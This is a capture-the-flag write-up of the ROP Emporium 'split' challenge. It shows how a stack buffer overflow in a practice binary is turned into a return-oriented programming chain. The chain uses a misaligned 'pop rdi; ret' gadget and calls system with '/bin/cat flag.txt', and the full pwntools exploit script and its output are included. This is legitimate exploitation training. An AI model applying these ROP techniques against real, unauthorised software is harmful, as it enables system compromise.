 # split

This one is slightly more complicated, but not by much. Here's where we really get into using gadgets to `ret` our way to the finish line.

Opening the file in `rizin` (I use Cutter because I'm a worthless asshole too stupid to use the command line) we see three things.

```text
sym.main
sym.pwnme
sym.usefulFunction
```

Cool. This looks like last time. Let's check `pwnme` and `usefulFunction`:

```c
void pwnme(void)
{
    char buf [32];
    
    memset(buf, 0, 0x20);
    puts("Contriving a reason to ask user for data...");
    printf(0x40083c);
    read(0, buf, 0x60);
    puts("Thank you!");
    return;
}
```

```c
void usefulFunction(void)
{
    system("/bin/ls");
    return;
}
```

This looks a lot like last time, but now we have a problem. `usefulFunction` calls `system()` like we hope it would, but it runs `ls` instead of `cat flag.txt` like we hoped.

Alright. Cool. Let's take stock.

We need to be able to control two main things:

- the call to `system`,
- the parameter passed to it.

And we do this by overwriting the stack.

We can do this with return-oriented programming. Essentially, we look for gadgets - small pieces of code that usually end with a `ret` instruction. This takes advantage of how `ret` works: It pops off the stack and into `rip`, and jumps to it. Thus, we can exploit this like so:

1. We overwrite the saved `rip` with the address of a gadget.
2. When `ret` is executed, we pop that off the stack and jump to it, executing whatever code before `ret`-ing again.
3. If we fed in the address of another gadget before that, we'll pop _that_ off, and execute _that_ gadget, and so on and so forth.
4. Rinse and repeat until profit.

Great. So we just overwrite the stack with addresses. That settles our call to `system`. What's not settled is the parameter we need to pass to it.

This is where gadgets come into play. We can run `strings` to check for any strings that we can use:

```text
$ strings split | grep bin

/bin/ls
/bin/cat flag.txt
```

Interesting. He was kind enough to leave that in there.

Looking at Cutter, we can figure out the address of that string.

```text
;-- str.bin_cat_flag.txt:
;-- usefulString:
0x00601060          .string "/bin/cat flag.txt" ; len=18
```

It even has the `usefulString` symbol attached to it. How nice.

Great. We have the string to pass, and we have the call to `system` (thankfully imported by `usefulFunction`). Now we just need to mash them together in glorious ROP glory.

The [AMD64 System V calling convention](https://wiki.osdev.org/System_V_ABI#x86-64) states that parameters to functions are passed in registers, specifically `rdi`, `rsi`, `rdx`, `rcx`, `r8`, and `r9`, with any additional parameters pushed on the stack in reverse order. Knowing this, we need to have `rdi` point to our `usefulString` right before the call to `system`.

We can do this with a gadget. Bet you were wondering when we were gonna circle back to this.

Since we control the stack, we have to pass in this address on the stack and somehow get it into `rdi`. Luckily, there's an instruction that can do this, called `pop`. How cute.

So, we're looking for a gadget that executes `pop rdi, ret`. This pops the top of the stack into `rdi`, then returns. Luckily, Cutter has this built right in.

```text
[0x00400742]> /a pop rdi, ret
Searching 1 byte in [0x601090-0x6010d8]
hits: 0
Searching 1 byte in [0x400000-0x4009e0]
hits: 12
Searching 1 byte in [0x601072-0x601088]
hits: 0
Searching 1 byte in [0x600e10-0x601072]
hits: 0
Searching 1 byte in [0x100000-0x1f0000]
hits: 0
fs hits
0x004003e9 hit0_0 5f
0x004003ea hit0_1 5f
0x004003ef hit0_2 5f
0x004003f5 hit0_3 5f
0x00400400 hit0_4 5f
0x00400407 hit0_5 5f
0x00400408 hit0_6 5f
0x0040040d hit0_7 5f
0x00400413 hit0_8 5f
0x00400414 hit0_9 5f
0x004007c3 hit0_10 5f
0x00400801 hit0_11 5f 
```

So many hits. Let's pick `0x4007c3` as our gadget of choice, since looking at Cutter, we know it's in a region marked as executable.

But when we navigate to the function:

```text
0x004007c0      415e                   pop r14
0x004007c2      415f                   pop r15
0x004007c4      c3                     ret
```

What gives?

Turns out, because x86_64 is a multibyte instruction set, instructions don't have to be aligned. We can just jump right into the middle of an instruction, and the CPU, blindly assuming it's at the start of an instruction, will happily interpret it as a completely different instruction.

When we assemble this gadget into machine code:

```python
>>> from pwn import *
>>> context.arch = "amd64"
>>> asm("pop rdi\nret")
b'_\xc3' # the byte representation of '_' is 0x5f.
```

Looking at `0x4007c3`, we see `0x5f, 0xc3`. Exactly what we need.

Cool. We can do our exploit now.

```python
from pwn import *

# this is important so we can parse the ELF correctly
context.arch = "amd64"
elf = context.binary = ELF('./split')

# overflow the stack with these
POP_RDI_GADGET = p64(0x4007c3)
CATFLAG = p64(0x601060)
# interestingly enough, this is the address of system in the PLT. 
# what's the PLT, you ask? research it, it's important.
SYSTEM = p64(elf.symbols.system)

# overflow the buffer
payload = b'A' * 40

# when pwnme returns, pop this address into rip and jump to it
payload += POP_RDI_GADGET
# put this on the stack to be popped into rdi by above gadget
payload += CATFLAG
# when said gadget returns, pop this into rip and jump to it
payload += SYSTEM

conn = process(elf.path)

conn.recvuntil(b'> ')

conn.send(payload)

print(conn.recvall())
```

Running it:

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/split/split': pid 193724
[+] Receiving all data: Done (44B)
[*] Process '/home/sammy/Projects/binexp/ropemporium/split/split' stopped with exit code -11 (SIGSEGV) (pid 193724)
b'Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

¯\_(ツ)_/¯

